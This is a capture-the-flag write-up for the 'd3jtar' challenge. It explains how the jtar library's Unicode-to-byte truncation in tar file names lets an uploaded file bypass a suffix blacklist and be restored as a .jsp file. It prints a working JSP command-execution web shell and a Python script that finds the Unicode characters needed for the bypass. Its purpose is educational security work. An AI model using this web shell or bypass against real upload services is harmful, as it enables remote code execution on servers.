

# d3jtar-WP-EN

In this challenge, an insecure jsp parsing is configured under the `view` route of the website file backup system. Obviously, RCE can be achieved as long as the jsp file is successfully uploaded. However, the backend performs a relatively strict check on the name of the uploaded file. In my expectation, players cannot bypass the `secureUpload` check to upload the jsp file by other means.

Then, combined with the title of this challenge, we can know that the key to solving the challenge lies in the `jtar` packaging library used by the tool class `Backup`. When using jtar's `TarOutputStream` to package files, it will force the unicode in the file name to be converted into ascii code, resulting in character truncation. Using this, we can upload files with specific unicode characters in the suffix to the target machine, bypass the suffix blacklist check, and use the backup and restore function to convert the uploaded files into files with jsp suffix and put them back into the jsp parseable directory, and finally get the flag by RCE.

EXP:

filename：payload.陪 sp --> payload.jsp

```java
<%@ page import="java.io.*" %>
<%
    String cmd = "printenv";
    String output = "";

    try {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            output += line + "<br>";
        }
    } catch (Exception e) {
        output = "Error executing command: " + e.getMessage();
    }
%>

<html>
<head><title>Command Output</title></head>
<body>
<h2>Executed Command: <code><%= cmd %></code></h2>
<pre><%= output %></pre>
</body>
</html>
```

The specific principle can be found in the `getNameBytes` method of `TarHeader` in the jtar source code as shown below. Using `(byte)` to force conversion of unicode file names will cause character truncation, and the file name will change after packaging.（[https://github.com/kamranzafar/jtar](https://github.com/kamranzafar/jtar)）



The unicode characters used to solve the challenge can be obtained by referring to the following script. As long as they can be converted into normal suffixes' ASCII characters, for example, `payload.멪ⅳば` has the same effect.

```python
import unicodedata

def reverse_search(byte_value):
    low_byte = byte_value & 0xFF
    candidates = []

    for high in range(0x00, 0xFF + 1):
        code_point = (high << 8) | low_byte
        try:
            char = chr(code_point)
            name = unicodedata.name(char)
            candidates.append((f"U+{code_point:04X}", char, name))
        except ValueError:
            continue
    return candidates

ascii_character = "j"  # "s","p"
byte_val = ord(ascii_character)
print(f"Possible original characters ({byte_val} → 0x{byte_val & 0xFF:02X}）:")
results = reverse_search(byte_val)
for cp, char, name in results:
    print(f"{cp}: {char} - {name}")
```

In addition, if the players pay attention, there is a PR from 2023 in jtar's github project (at the top), which is a modification of Chinese encoding errors (but has not been merged). It can serve as a potential hint to remind players to pay attention to jtar's encoding issues.😉
